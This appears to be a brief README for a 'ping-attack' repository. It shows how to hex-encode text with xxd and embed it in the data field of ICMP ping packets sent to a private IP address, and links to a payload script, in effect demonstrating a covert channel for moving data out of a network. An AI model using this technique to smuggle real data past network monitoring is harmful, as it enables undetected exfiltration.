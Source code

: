 # ping-attack

Basic Commands:<br>

#This will take the text "test" and convert to hex:<br>
```
echo "test" | xxd -p
```

#output:<br>
746573740a

#This will ping the ip address and add the hex of "test" into the data field<br>
```
ping -c 1 192.168.1.5 -p 746573740a
```


or use the oneline script of:<br>
```
ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)
```

or use the scripts ping_payload1.sh located at:<br>
https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh<br>
just pass the ip address and text
